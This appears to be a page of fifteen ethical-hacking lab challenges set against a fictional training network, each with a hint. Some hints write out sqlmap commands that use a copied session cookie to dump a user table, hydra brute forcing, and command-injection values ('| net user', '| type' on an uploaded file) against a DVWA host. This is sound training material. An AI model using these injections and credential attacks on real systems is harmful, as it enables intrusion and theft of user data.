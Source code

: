 # Part III

## Challenge 1

CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network. (Format: AAA)

__hint:__ wireshark

## Challenge 2

You have been assigned a task to perform a clickjacking test on www.certifiedhacker.com that the CEHORG members widely use. Find out whether the site is vulnerable to clickjacking. (Format: Aaa)

__hint:__ ClickjackPoc

## Challenge 3

Perform an HTTP-recon on www.certifiedhacker.com and find out the version of Nginx used by the web server. (Format: N.NN.N)

__hint:__ (Windows 11) httprecon

## Challenge 4

An FTP site is hosted on a machine in the CEHORG network. Crack the FTP credentials, obtain the “flag.txt” file and determine the content in the file. (Format: Aaaaaaa*AAA)

__hint:__ hydra

## Challenge 5

Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine. (Format: "NaNNNNNaaaNaaNN*N")

__hint:__

1. nc -vv movies.cehorg.com 80
2. GET / HTTP/1.0 (ENTER * 2)

## Challenge 6

Identify the Content Management System used by www.cehorg.com. (Format: AaaaAaaaa)

__hint:__ whatweb

## Challenge 7

Perform web application reconnaissance on movies.cehorg.com and find out the HTTP server used by the web application. (Format: Aaaaaaaaa-AAA/NN.N)

__hint:__ what web

## Challenge 8

Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder. (Format: N)

__hint:__ OWASP ZAP

## Challenge 9

Identify the load balancing service used by eccouncil.org. (Format: aaaaaaaaaa)

__hint:__ lbd

## Challenge 10

Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)

__hint:__ Burp Suite

## Challenge 11

Perform parameter tampering on movies.cehorg.com and find out the user for id 1003. (Format: Aaaaa)

__hint:__ Burp Suite. Use Jason/welcome as login credentials

## Challenge 12

Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials. (Format: N)

__hint:__

1. login use Jason/welcome
2. View Profile
3. Right Click > Inspect Element > Console
4. document.cookie
5. copy message
6. sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="[the copied message]" --dbs
7. sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="[the copied message]" -D moviescope --tables
8. sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="[the copied message]" -D moviescope -T User_Login --dump

## Challenge 13

Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No). (Format: Aa)

__hint:__ python3 pwnxss.py -u http://www.cehorg.com

## Challenge 14

Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user (Format: N)

__hint:__

1. 10.10.10.25:8080/dvwa/
2. login as admin / password
3. set security level to low
4. command injecion
5. | net user

## Challenge 15

A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash (Format: Aa*aaNa)

__hint:__

1. 10.10.10.25:8080/dvwa/
2. | type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt

